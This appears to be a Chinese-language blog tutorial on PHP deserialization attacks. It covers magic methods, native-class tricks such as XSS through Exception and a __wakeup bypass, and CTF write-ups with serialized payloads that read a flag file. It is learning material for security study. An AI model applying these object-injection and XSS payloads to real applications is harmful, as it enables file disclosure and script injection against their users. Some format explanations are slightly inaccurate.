

总体思路

序列化
了解反序列化前，我们需要先知道什么是序列化
我们把变量从内存中变成可存储或传输的过程称之为序列化(serialization)
将对象转化成字符串，持久保存，便于网络传输
PHP反序列化
原理
未对用户输入的序列化字符串进行检测，导致攻击者可以控制反序列化过程，从而导致代码执行，SQL注入，目录遍历等不可控的后果。在反序列化的过程中自动触发某些 魔术方法。当进行反序列化的时候就有可能触发对象中的一些魔术方法。
serialize(); // 将一个对象转化成字符串
unserialize(); // 将一个字符串转化成对象
触发：unserialize的函数变量可控，文件中存在可利用的类。
实现
无类
即没有类的php语句。
序列化
执行如下的代码
<?php
$KEY = "violet";
echo serialize($KEY);
?>
结果为
s:6:”violet”;
这个是什么意思呢？
O(代表object,I代表数组)4(对象长度):”info”(对象名称):2(该对象中变量个数):{s(变量数据类型,s代表string,i代表int):4(变量名长度):”name”(变量名);i:2:”19”}
所以结果的意思为一个字符串类型的变量，长度为6，内容为”violet“
反序列化
我们执行下面的代码，结果为什么呢？
<?php
$KEY = 's:6:"violet";';
echo unserialize($KEY);
?>
结果很明显是violet
有类
与无类相反，这里存在类，并且这里也是重点。
魔术方法
在有类的反序列化中非常重要的一点是有魔术方法。这部分也是CTF经常会考察的地方。
详细的使用可以参考https://www.cnblogs.com/20175211lyz/p/11403397.html
下面只是粗略的列出，以便查阅。
__construct()，类的构造函数
__destruct()，类的析构函数
__call()，在对象中调用一个不可访问方法时调用
__callStatic()，用静态方式中调用一个不可访问方法时调用
__get()，获得一个类的成员变量时调用
__set()，设置一个类的成员变量时调用
__isset()，当对不可访问属性调用isset()或empty()时调用
__unset()，当对不可访问属性调用unset()时被调用。
__sleep()，执行serialize()时，先会调用这个函数
__wakeup()，执行unserialize()时，先会调用这个函数
__toString()，类被当成字符串时的回应方法，echo或者拼接字符串就会触发。
__invoke()，调用函数的方式调用一个对象时的回应方法
__set_state()，调用var_export()导出类时，此静态方法会被调用。
__clone()，当对象复制完成时调用
__autoload()，尝试加载未定义的类
__debugInfo()，打印所需调试信息
反序列化
<?php
error_reporting(0);
include "flag.php";
$KEY = "violet";
$str = $_GET['str'];
if(unserialize($str) === "$KEY"){
echo "$flag";
}
show_source(__FILE__);
class Abc{
public $test;
function __construct(){
$test = 1;
echo "调用了构造函数<br>";
}
function __destruct(){
echo "调用了析构函数<br>";
}
function __wakeup(){
echo "调用了苏醒函数<br>";
}
}
echo "创建对象a<br>";
$a = new Abc;
echo "序列化<br>";
$a_s = serialize($a);
echo "反序列化<br>";
$a_un = unserialize($a_s);
echo "对象快死了";
?>
上述代码的结果为
创建对象a
调用了构造函数
序列化
反序列化
调用了苏醒函数
对象快死了调用了析构函数
调用了析构函数
我们来解析一下，首先对象的创建，调用了构造器__construct，序列化会调用sleep()，但是这里没有。反序列化调用__wakeup()，此方法调用后会调用析构方法一次，最后程序结束，调用析构方法。
toString的使用
打印一个对象时，如果定义了__toString()方法，就能在测试时，通过echo打印对象体，对象就会自动调用它所属类定义的toString方法，格式化输出这个对象所包含的数据。如果没有这个方法，那么echo一个对象时，就会报错Object of class Account could not be converted to string，实际上这是一个类型匹配失败的错误。不过仍然可以用print_r()和var_dump()函数输出一个对象。当然__toString()是可以定制的，所提供的信息和样式更加丰富
所以，toString一般会在当对象被当做字符串时被调用。
<?php
class A{
public $test;
function __construct(){
$test = 1;
echo "调用了构造函数<br>";
}
function __destruct(){
echo "调用了析构函数<br>";
}
function __wakeup(){
echo "调用了苏醒函数<br>";
}
function __toString(){
echo "调用了toString<br>";
return "返回了toString<br>";
}
}
$a = new A();
$b = serialize($a);
echo unserialize($b);
?>
结果为:
调用了构造函数
调用了苏醒函数
调用了toString
返回了toString
调用了析构函数
调用了析构函数
总结
我们可以很明显的看出序列化与反序列化是一正一反，互逆。
同时，我们可以想一下$KEY=123序列化后是什么。
看了上面的描述，我第一反应就是i:3:”123”;，然而这不对，结果是什么呢？
i:123记住就好了。
原生类的利用
实际利用是经常会遇到没有合适的利用链，这就需要利用自带的原生类。
__call()方法
__call魔术方法是在调用不存在的类方法时将会触发。该方法有两个参数，第一个参数自动接受不存在的方法名，第二个参数接受不存在方法中的参数。
<?php
class A{
public function __call($name, $arguments)
{
// 注意: $name 的值区分大小写
echo "Calling object method '$name' "
. implode(', ', $arguments). "\n";
}
}
$a = new A();
echo $a->notexist("1");
?>
结果为
Calling object method 'notexist' 1
SoapClient::__call
public SoapClient::__call(string $name, array $args): mixed
Calling this method directly is deprecated. Usually, SOAP functions can be called as methods of the SoapClient object; in situations where this is not possible or additional options are needed, use SoapClient::__soapCall().
这里可以进行ssrf攻击，但是我实在不怎么了解。之后，再研究。
__toString
可以与xss结合，主要利用的Exception对错误信息没有过滤，在构造Exploit时，将XSS代码作为它的参数即可
<?php
$a = urlencode(serialize(new Exception("<script>alert(/hello world/)</script>")));
echo unserialize(urldecode($a));
?>
__construct
通常情况下，反序列化是无法调用__construct()的，但是经过开发者的魔改便肯呢个存在任意类实例化的情况。可以使用call_user_func_array、call_user_func调用构造方法。具体的方式遇到再说吧，我是在没怎么搞懂
call_user_func_array、call_user_func
call_user_func(callable $callback, mixed $parameter = ?, mixed $… = ?): mixed
第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。
call_user_func_array(callable $callback, array $param_arr): mixed
把第一个参数作为回调函数（callback）调用，把参数数组作（param_arr）为回调函数的的参数传入。
简单的说就是就是将方法作为参数去调用它。
在php可用作链式调用，如下面的代码
<?php
class StringHelper
{
private $value;
function __construct($value)
{
$this->value = $value;
}
function __call($function, $args){
echo 'arg is :'.$args[0].'<br>';
$this->value = call_user_func($function, $this->value, $args[0]);//调用外部的trim()方法,传入2个参数
echo $this->value;
return $this;
}
function strlen() {
return strlen($this->value);
}
}
$str = new StringHelper("hi boys and girls ! ");
echo $str->trim(" ")->strlen();
?>
这个程序的目的就是计算字符串的长度。但是，这个字符串最后有空格，我们希望将空格去除掉然后计算其长度。这个程序就使用链式调用的方式。
首先，创建一个对象实例，并将字符串作为参数传入构造器中。构造器将属性输出化为输入的字符串，之后便是echo语句。因为trim在这个类中并不存在，所以会调用call方法，__call方法将方法名trim以及” “作为参数，传入了call_user_func($function, $this->value, $args[0])。call_user_func会调用回调函数，trim，以属性value以及” “作为参数，从而成功将字符串去除空格。最后，他又调用了strlen计算长度。
但是，我当时就在想，为什么要这么做？直接调用函数不好吗？于是上网查询一些资料，基本有两个说法。一是符合封装的思想，二是便于异步运行。我就懵了，这咋就符合封装了，直接调用不也符合封装吗。。。。没搞明白，之后编程遇到了再说。
Phar反序列化
小技巧
__wakeup失效：CVE-2016-7124
影响版本为PHP5至5.6.25，PHP7至7.0.10
原因：当属性个数不正确时，不会调用wakeup
bypass反序列化正则
当执行反序列化时，使用正则”/[oc]: \d+:/i”进行拦截，只要拦截O:4:
PHP中支持O:+所以可以利用这点进行绕过。
反序列化字符逃逸(CVE-2015-8562)
这里可以见我另一篇文章中的 easy_serialize_php
Session反序列化
CTF
下面我们来做两道CTF题，来对知识进行巩固。
flag.php
源码如下：
<?php
error_reporting(0);
include_once("flag.php");
$cookie = $_COOKIE['ISecer'];
if(isset($_GET['hint'])){
show_source(__FILE__);
}
elseif (unserialize($cookie) === "$KEY")
{
echo "$flag";
}
else {
?>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Login</title>
<link rel="stylesheet" href="admin.css" type="text/css">
</head>
<body>
<br>
<div class="container" align="center">
<form method="POST" action="#">
<p><input name="user" type="text" placeholder="Username"></p>
<p><input name="password" type="password" placeholder="Password"></p>
<p><input value="Login" type="button"/></p>
</form>
</div>
</body>
</html>
<?php
}
$KEY='ISecer:www.isecer.com';
?>
看了源码，第一反应先将KEY进行序列化，结果为s:21:”ISecer:www.isecer.com";，然后将结果发送ISecer:s:21:"ISecer:www.isecer.com";。
然后结果不对，然后我就纳闷了，这是咋回事。然后仔细一看源码，明白了。$KEY在最后，而比较在上面，所以很明显$KEY在比较时为空，我们必须重新构造payload：ISecer:s:0:””;
结果正确。
AreUSerialz
<?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler {
protected $op;
protected $filename;
protected $content;
function __construct() {
$op = "1";
$filename = "/tmp/tmpfile";
$content = "Hello World!";
$this->process();
}
public function process() {
if($this->op == "1") {
$this->write();
} else if($this->op == "2") {
$res = $this->read();
$this->output($res);
} else {
$this->output("Bad Hacker!");
}
}
private function write() {
if(isset($this->filename) && isset($this->content)) {
if(strlen((string)$this->content) > 100) {
$this->output("Too long!");
die();
}
$res = file_put_contents($this->filename, $this->content);
if($res) $this->output("Successful!");
else $this->output("Failed!");
} else {
$this->output("Failed!");
}
}
private function read() {
$res = "";
if(isset($this->filename)) {
$res = file_get_contents($this->filename);
}
return $res;
}
private function output($s) {
echo "[Result]: <br>";
echo $s;
}
function __destruct() {
if($this->op === "2")
$this->op = "1";
$this->content = "";
$this->process();
}
}
function is_valid($s) {
for($i = 0; $i < strlen($s); $i++)
if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
return false;
return true;
}
if(isset($_GET{'str'})) {
$str = (string)$_GET['str'];
if(is_valid($str)) {
$obj = unserialize($str);
}
}
代码执行过程
我们根据代码，将代码执行过程捋一遍。
get方式传入参数str
调用过滤方法
反序列化，调用析构方法。
调用process，根据op调用write或read。
思路
我们需要flag，所以尽量调用read方法。而read方法需要op=2。因而，我们需要设置op为2，但是在析构方法中有这么一条语句，如果op=2会将op强制转化为1。但是，他是强等于，而process中的对比为弱类型对比，这就产生了漏洞。在强类型对比中 2 ！=== ‘2’，在弱类型对比中，2 == ‘2’，所以我们可以依次为思路进行获取flag。
// destruct
if($this->op === "2")
$this->op = "1";
// process
if($this->op == "1") {
$this->write();
} else if($this->op == "2") {
$res = $this->read();
$this->output($res);
} else {
$this->output("Bad Hacker!");
}
payload构造
<?php
class FileHandler {
protected $op = '2';
protected $filename = "flag.php";
protected $content = 'violet';
}
$flag = new FileHandler();
$flag_s = serialize($flag);
echo $flag_s;
?>
得到反序列字符串
O:11:"FileHandler":3:{s:5:"*op";s:1:"2";s:11:"*filename";s:8:"flag.php";s:10:"*content";s:6:"violet";}
但是这里其实还是不对的，因为，$op,$filename,$content三个变量权限都是protected，而protected权限的变量在序列化的时会有%00*%00字符，%00字符的ASCII码为0，就无法通过上面的is_valid函数校验。
所以需要改为public权限，然后payload变为
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:6:"violet";}
ctrl-u 查看源码即可获得flag。其实，最好结合php执行漏洞，但是这里最主要的还是学习反序列化，所以还是不使用了。
补充
当使用protected时，将其序列化会存在’%00*%00’，而%00是不可见的，所以我们可以在构造exploit时，尽量使用urlencode进行编码。
echo urlencode(serialize(new violet()));